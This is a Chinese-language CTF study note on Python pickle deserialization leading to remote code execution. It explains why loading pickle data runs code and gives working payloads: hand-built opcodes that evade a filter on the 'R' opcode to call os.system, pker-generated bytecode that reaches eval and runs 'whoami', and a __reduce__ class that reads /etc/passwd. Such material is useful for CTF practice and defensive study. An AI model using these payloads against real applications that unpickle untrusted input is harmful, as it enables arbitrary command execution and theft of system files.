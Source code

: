 tags:: CTF/Python

- > [参考](https://xz.aliyun.com/t/7012)
- # 原理
	- pickle实际上是字节码，加载pickle就是执行这串字节码
	- 我们可以通过构造恶意字节码来调用eval函数，实现RCE
- # 构造恶意Pickle文件
	- 某些特定的 Python 代码可以直接被转成 Pickle
	- 可以：
		- 变量赋值 存到 memo 中，保存 memo 下标和变量名即可
		- 函数调用
		- 类型字面量构造
		- list 和 dict 成员修改
		- 对象成员变量修改
- # 绕WAF
	- 字母`R`被禁用
		- ```python
		  import pickle
		  import pickletools
		  
		  opcode=b'''(cos
		  system
		  S'bash -c "sleep 1"'
		  o.'''
		  pickletools.dis(opcode)
		  pickle.loads(opcode)
		  ```
	- 可以用[这个工具](https://github.com/EddieIvan01/pker)生成
		- ```shell
		  $ cat test/code_breaking
		  getattr = GLOBAL('builtins', 'getattr')
		  dict = GLOBAL('builtins', 'dict')
		  dict_get = getattr(dict, 'get')
		  globals = GLOBAL('builtins', 'globals')
		  builtins = globals()
		  __builtins__ = dict_get(builtins, '__builtins__')
		  eval = getattr(__builtins__, 'eval')
		  eval('__import__("os").system("whoami")')
		  return
		  
		  $ python3 pker.py < test/code_breaking
		  b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
		  ```
- # Pickle文件OPCODE分析
	- `python -m pickletools pickle.pkl`
- # 基础
	- 把生成的 bytes 加载即可执行任意代码
	- 对象被 pickle 反序列化时，pickle 会调用对象的`__reduce__`方法（如果有）来获得反序列化的方法
	- ```python
	  #!/usr/bin/python2
	  import pickle
	  import urllib
	  class payload(object):
	      def __reduce__(self):
	         return (eval, ("open('/etc/passwd','r').read()",))
	  a = pickle.dumps(payload())
	  a = urllib.quote(a)
	  print a
	  ```
-